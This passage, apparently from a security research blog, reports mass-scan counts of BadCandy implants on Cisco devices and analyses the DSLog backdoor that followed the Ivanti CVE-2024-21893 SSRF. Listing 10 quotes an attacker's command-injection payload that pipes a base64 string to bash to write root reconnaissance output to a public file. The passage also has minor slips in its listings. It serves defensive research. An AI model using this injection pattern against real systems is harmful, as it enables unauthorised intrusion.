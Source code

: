
### Results: a mapped-out global infection flare-up
Roughly three weeks after the vulnerability was published, on October 18, 2023, we measured a total of 72.795 backdoored devices. The United States leads the list by a considerable margin, likely due to its large enterprise router footprint and widespread exposure of the Web UI. Southeast Asia and Latin America also show significant concentrations. Compared to the distribution of the Citrix ADC investigation, the countries affected the most seem to be completely different.

```python
>>> sorted_data = dict(sorted(countries.items(), key=lambda item: item[1], reverse=True))
>>> items = list(sorted_data.items())
... for i in range(0, 20, 5):
...     line = items[i:i+5]
...     print("  ".join(f"{k}: {v}" for k, v in line))
...
US: 5218  PH: 3857  CL: 2901  MX: 2568  IN: 2154
TH: 1862  PE: 1829  BE: 1321  AT: 1105  BR: 1073
CH: 1043  SG: 986  GB: 966  IT: 964  AU: 875
DE: 860  NL: 750  EC: 714  FR: 696  RU: 620
```
<span class="centered-text">Listing 9: Top 20 countries with BadCandy implants on October 18th, 2023</span>

All system owners that were compromised received a notification about the implant, steps to remediate, and advice on how to proceed. While Cisco themselves attempted to bury these numbers, collective effort from the industry brought down the infection rate and number of compromised hosts significantly over the months after. 

## Ivanti Connect Secure - CVE-2024-21893
A few months later, on January 31st, 2024, Ivanti [released](https://www.ivanti.com/blog/security-update-for-ivanti-connect-secure-and-ivanti-policy-secure-gateways) fixes to address four vulnerabilities. One of these, CVE-2024-21893, which is a Server-Side Request Forgery (SSRF) vulnerability that affected the SAML module. Researchers from Rapid7 and AssetNote released a working POC that anyone could use and within hours of its release, attacks were identified targeting this SAML vulnerability. One of the first to publish a report on the implants resulting from these attacks was [Orange Cyberdefense](https://www.orangecyberdefense.com/global/blog/research/ivanti-connect-secure-discover-the-dslog-backdoor), who named it the DSLog backdoor. 

As with the previous cases, post-exploitation scanning revealed compromises that would have gone unnoticed by standard vulnerability checks.

### Scanning for the Backdoors
An important aspect of scanning for the DSLog backdoor is the first stage of the exploit, shown in Listing 9. The payload outputs either a set of random characters or the output of `uname -a` to a publicly accessible file (index.txt, index1.txt, index2.txt, etc.). This seemed to be reconnaissance activity (shown in Listing 10) to confirm that the exploit worked on the target device, an idea that is corroborated by Orange Cyberdefense. Interestingly, in 1cases where the attackers cleared the log files, the `uname -a` output offered a timestamp on the time of compromise, which is temporal evidence for the breach.

```bash
# Base64 encoded request
https://127.0.0.1:8090/api/v1/license/keys-status/;echo ZWNobyAkKHVuYW1lIC1hO2lkKT4vaG9tZS93ZWJzZXJ2ZXIvaHRkb2NzL2RhbmEtbmEvaW1ncy9pbmRleDIudHh0|/usr/bin/base64 -d | /bin/bash;

# Decoded command
https://127.0.0.1:8090/api/v1/license/keys-status/;echo $(uname -a;id)>/home/webserver/htdocs/dana-na/imgs/index2.txt|/usr/bin/base64 -d | /bin/bash;

# Output in index2.txt
Linux localhost2 2.6.32-00032-g2005e8d-dirty #1 SMP Thu Jun 22 03:40:39 EDT 2023 x86_64 x86_64 x86_64 GNU/Linux uid=0(root) gid=0(root) groups=0(root)
```
<span class="centered-text">Listing 10: SSRF payload for CVE-2024-21893</span>
